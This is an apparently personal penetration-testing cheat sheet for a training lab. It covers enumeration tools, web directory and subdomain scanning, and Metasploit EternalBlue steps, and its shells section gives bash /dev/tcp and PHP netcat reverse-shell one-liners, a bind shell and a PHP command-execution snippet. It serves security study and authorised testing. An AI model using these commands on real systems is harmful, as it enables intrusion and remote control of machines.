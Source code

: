 |Linux:<br><br>LinEnum - [https://github.com/rebootuser/LinEnum](https://github.com/rebootuser/LinEnum)<br><br>Linuxprivchecker.py - [https://github.com/sleventyeleven/linuxprivchecker](https://github.com/sleventyeleven/linuxprivchecker)||
|Windows:<br><br>Seatbelt - [https://github.com/GhostPack/Seatbelt](https://github.com/GhostPack/Seatbelt)<br><br>JAWS - Just Another Windows (Enum) Script - [https://github.com/411Hall/JAWS](https://github.com/411Hall/JAWS)||
|[https://subinsb.com/default-device-ttl-values/](https://subinsb.com/default-device-ttl-values/)|Default TTL (Time To Live) Values of Different OS. Can help determine OS via ping.|
|Web Enumeration||
|||
|gobuster dir -u [http://10.10.10.121/](http://10.10.10.121/) -w /usr/share/dirb/wordlists/common.txt|Run a directory scan on a website|
|gobuster dns -d inlanefreight.com -w /usr/share/SecLists/Discovery/DNS/namelist.txt|Run a sub-domain scan on a website|
|dirb<br><br>ffuf<br><br>Assetfinder<br><br>Amass<br><br>subfinder|More sub-domain enum tools|
|curl -IL [https://www.inlanefreight.com](https://www.inlanefreight.com/)|Grab website banner|
|whatweb 10.10.10.121|List details about the webserver/certificates|
|curl 10.10.10.121/robots.txt|List potential directories in robots.txt|
|ctrl+U|View page source (in Firefox)|
|Ffuf|Add later|
|||
|Public Exploits||
|searchsploit openssh 7.2|Search for public exploits for a web application|
|msfconsole|MSF: Start the Metasploit Framework|
|search exploit eternalblue|MSF: Search for public exploits in MSF|
|use exploit/windows/smb/ms17_010_psexec|MSF: Start using an MSF module|
|show options|MSF: Show required options for an MSF module|
|set RHOSTS 10.10.10.40<br><br>set RPORT|MSF: Set a value for an MSF module option|
|check|MSF: Test if the target server is vulnerable|
|exploit|MSF: Run the exploit on the target server is vulnerable|
|||
|Using Shells||
|[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)<br><br>[https://highon.coffee/blog/reverse-shell-cheat-sheet/](https://highon.coffee/blog/reverse-shell-cheat-sheet/)|Shell Cheat Sheets|
|[https://github.com/WhiteWinterWolf/wwwolf-php-webshell](https://github.com/WhiteWinterWolf/wwwolf-php-webshell)|wwwolf's PHP web shell|
|[https://github.com/0dayCTF/reverse-shell-generator](https://github.com/0dayCTF/reverse-shell-generator)<br><br>Hosted instance:<br><br>[https://revshells.com](https://revshells.com)|Reverse Shell Generator<br><br>(I really like this)|
|<?php system('id'); ?>|Simple php script to test for possible code execution on website|
|sudo nc -lvnp 1234|Start a nc listener on a local port|
|bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'|Send a reverse shell from the remote server|
|bash -i >& /dev/tcp/10.0.0.1/8080 0>&1|Bash reverse shell one liner, works on cron jobs, etc|
|<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/sh -i 2>&1\|nc 10.10.14.2 9443 >/tmp/f"); ?>|PHP reverse shell from the remote server|
|rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/bash -i 2>&1\|nc -lvp 1234 >/tmp/f|Start a bind shell on the remote server|
|nc 10.10.10.1 1234|Connect to a bind shell started on the remote server|
|python -c 'import pty; pty.spawn("/bin/bash")'|Upgrade shell TTY (1)|
|ctrl+z then stty raw -echo then fg then enter twice|Upgrade shell TTY (2)|